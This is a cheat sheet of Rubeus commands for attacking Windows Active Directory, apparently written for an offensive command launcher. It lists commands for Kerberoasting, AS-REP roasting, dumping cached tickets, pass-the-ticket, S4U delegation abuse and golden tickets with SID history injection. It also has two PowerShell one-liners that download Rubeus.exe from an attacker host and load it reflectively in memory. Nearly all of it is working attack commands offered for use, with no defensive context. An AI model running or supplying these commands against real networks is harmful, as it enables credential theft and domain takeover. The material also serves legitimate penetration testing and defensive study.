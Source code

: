 # rubeus

% ad, windows, rubeus

## inject ticket from file
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<ticket>
```

## load rubeus from powershell
#plateform/windows #target/local #cat/UTILS 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<lhost>/Rubeus.exe');$assem = [System.Reflection.Assembly]::Load($data);
```

## execute rubeus from powershell
#plateform/windows #target/remote #cat/UTILS 
```powershell
[Rubeus.Program]::MainString("klist");
```

## monitor
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe monitor /interval:5 /filteruser:<machine_account>
```

## inject ticket from b64 blob
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<BASE64BLOBHERE>
```

## check ASPREPRoast for all users in current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /format:<AS_REP_response_format|hashcat> /outfile:<output_hashes_file>
```

## ASREPRoast specific user
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /user:<user> /domain:<domain> /format:<AS_REP_response_format|hashcat> /outfile:<output_hashes_file>
```

## kerberoasting - current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

## Kerberoasting and outputting on a file with a spesific format
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain>
```

## Kerberoasting while being "OPSEC" safe, essentially while not try to roast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain> /rc4opsec
```

## Kerberoast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain> /aes
```
 
## Kerberoast specific user account
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain> /user:<user> /simple
```

## get hash
#plateform/windows #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
.\Rubeus.exe hash /user:<user> /domain:<domain> /password:<password>
```

## dump - will dump any relevant cached TGS ticket’s stored
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe dump
```

## ask and inject ticket
#plateform/windows #target/remote #cat/ATTACK/CONNECT 
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain> /rc4:<ntlm_hash> /ptt
```

## S4U - with ticket - Constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<user> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /ptt
```

## S4U - with hash - Constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /domain:<domain> /ptt
```

## get rc4 of machine with the password
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe hash /password:<machine_password>
```

## S4U - Resource based constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:cifs/<domain_fqdn> /domain:<domain> /ptt
```

## Rubeus Reflection assembly
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<ip>/Rubeus.exe')  
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("<rubeus_cmd>".Split())
```

## Rubeus - sIDHistory injection
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
.\Rubeus.exe golden /rc4:<krbtgt_hash> /domain:<child_domain> /sid:<child_sid> /sids:<sid_ets_admin> /user:<name> /ptt

```


